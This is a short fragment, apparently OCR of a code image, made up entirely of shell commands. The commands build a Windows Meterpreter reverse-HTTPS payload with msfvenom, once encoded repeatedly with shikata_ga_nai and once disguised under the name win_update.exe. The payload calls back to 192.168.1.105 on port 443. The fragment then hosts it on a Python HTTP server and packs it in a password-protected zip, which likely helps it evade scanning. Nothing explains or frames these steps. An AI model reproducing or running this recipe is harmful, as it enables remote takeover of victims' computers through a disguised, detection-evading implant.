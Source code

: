msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/win_update.exe


python3 -m http.server 8080

http://192.168.1.105:8080/payload_protegido.zip



zip --password SuaSenhaForte payload_protegido.zip payload_encoded.exe



